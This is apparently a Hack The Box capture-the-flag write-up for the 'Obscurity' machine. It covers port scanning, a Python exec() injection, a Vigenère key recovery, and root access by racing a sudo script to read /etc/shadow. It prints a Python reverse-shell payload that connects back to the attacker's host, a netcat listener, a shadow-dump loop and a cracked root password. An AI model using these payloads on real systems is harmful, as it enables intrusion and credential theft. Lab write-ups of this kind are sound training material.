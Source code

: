 ```yaml
---
path: "/htb-obscurity"
title: "Hack The Box - Obscurity"
date: "04/17/2020"
featuredImage: ../../images/obscurity.png
tags: ["pentesting", "hackthebox", "linux"]
---
```


Obscurity was a fun box to hack because it is CTF styled with lot of python code. As the name implies the author hid the vulnerabilities in plain sight. The first step towards “owning” any box is to do some reconnaissance (recon) with NMAP. This recon yielded 4 ports 2 of which are open. Ports 22 and 8080.

```
nmap -v -sV -sC -oA nmap/safe -Pn 10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.19s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
|
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
```

Web servers are usually riddled with vulnerabilities, hence port 8080 is a good first choice to enumerate and also continue recon.

The tool gobuster can be used for enumerating the web server to find interesting endpoints; this yielded nothing. Reading through the content of the page that is hosted at port 8080, there is a message that states the filename of the web server (SuperSecureServer.py) and also implies that this file is publicly hosted in a “secret” directory.

![HomePage](../../images/obscurity_homepage.gif)

From the message on the site, the goal now is to fuzz the directory that might contain the file SuperSecureServer.py. The tool wfuzz can be leveraged for this.

`wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py`

Once completed, we can find the file at http://10.10.10.168:8000/develop/SuperSecureServer.py . The contents of this file reveals the inner working of the web server and how it can be exploited to perform a Remote Code Execution (RCE).

View Source Code for [SuperSecureSever.py](https://gist.github.com/bascoe10/27fa856e886b6d09e80d5d580ed80e75)

In Line 139, there is an invocation of the method exec() with the path that is passed via the HTTP request. The exec() method executes dynamically created python program. If we pass a valid python program as the HTTP path, it will get executed by exec().

```
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

From the above snippet, the variable info will contain an extrapolated string that contains the URL path. After the extrapolation the string will take the form:

```
"output = 'Document: <path>'"
e.g "output = 'Document: /test/path'"
```

This string is a valid python program; a variable assignment. When this string is passed through exec(), it will create a variable name output which will have the a string value `Document: <path>`.

At this point the goal is to pass a python script as the URL path that will initiate a reverse shell. For this we can leverage the python reverse shell from [HackTricks](https://book.hacktricks.xyz/shells/shells/linux#python). The imports in this script are redundant as they have already been imported in script and hence can be removed. The final python payload will now be:

`';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.26",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

The single quotes are round this string are required to match the quotes of the string they will be extrapolated with.

With the help of Burpsuite, we can intercept a request to the server and then replace the path with the payload above. This payload assume that there is tcp listener on 1337 for the reverse shell. My goto is netcat.

`nc -lvnp 1337`

Once the reverse shell is established, we have an initial foothold in the box as user www-data. With this initial foothold, we can then start enumerating from within the box. This box only contains one user; robert.

We can list the content of Robert’s home directory, but cannot read the user flag file.

```
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
```

SuperSecureCrypt.py is a python implementation of Vigenère cipher.

View Source Code for [SuperSecureCrypt.py](https://gist.github.com/bascoe10/4e76d772f761a874b089c28ec112120d)

The key for a Vigenère cipher can be extracted if a plaintext, ciphertext pair is available. Here is why that is possible:

```
M := Plain text message
C := Cipher text
K := Encryption key
** 255 is the number of characters in the message alphabet (ascii)Encryption process:
C = (M + K) mod 255Decryption process:
M = (C - K) mod 255Key retrieval:
K = (C - M) mod 255
```

Looking at the content of check.txt we can see that it is the plaintext equivalent of out.txt. We can use this pair to extract the key. For this I created a simple python script:

View code [here](https://gist.github.com/bascoe10/45422021877e4e53d0dd9065af9653a3)

The output of this script is “alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal”. If the message is longer than the key, the key will be repeated. Therefore in this case the key is “alexandrovich”.

The content of the file passwordreminder.txt is encrypted and hence need to be decrypted with SuperSecureCrypt.py using the recovered key.

```
python3 SuperSecureCrypt.py -d -i passwordreminder.txt -o /tmp/dcpt -k alexandrovich
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
############################
#        FILE MODE         #
############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /tmp/dcpt...
www-data@obscure:/home/robert$ cat /tmp/dcpt
SecThruObsFTW
```

The output is a password that we can use to login as the user robert. This can be done via ssh or su.

```
www-data@obscure:/home/robert$ su robert
su robert
Password: SecThruObsFTW

robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

The next step from here is to pivot to the root account. First we can check what executable our current user (robert) can execute with sudo privileges without a password

```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

We can view the file /home/robert/BetterSSH/BetterSSH.py to find ways of exploiting it.

View source code for [BetterSSH.py](https://gist.github.com/bascoe10/6c4ed31f65b3364687cc9bf8a24ce3eb)

BetterSSH.py reads the contents of etc/shadow and writes it to a random file in /tmp/SSH/. My approach to exploiting this was to have a shell script that periodically dumps the content of all files in /tmp/SSH/. This being the case when BetterSSH.py is executed, it would leak the content of etc/shadow which would be capture by the running shell script.

```
==========
TERMINAL 1
==========

robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
robert
Enter password: SecThruObsFTW
SecThruObsFTW
Authed!

==========
TERMINAL 2
==========
while [ 0 -lt 10 ]; do cat /tmp/SSH/*; sleep 0.2; done
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7
```

With this hash for the root account, we can proceed to crack it and then use the result to login as root. (The hash is stored in pass.txt)

```
john --wordlist=rockyou.txt pass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-04-21 01:38) 1.234g/s 632.0p/s 632.0c/s 632.0C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

With this password at hand we can not login as the root user and get the root flag.

```
robert@obscure:~$ su root
su root
Password: mercedesroot@obscure:/home/robert# cat /root/root.txt
cat /root/root.txt
512fd4429f33a113a44d5acde23609e3
```
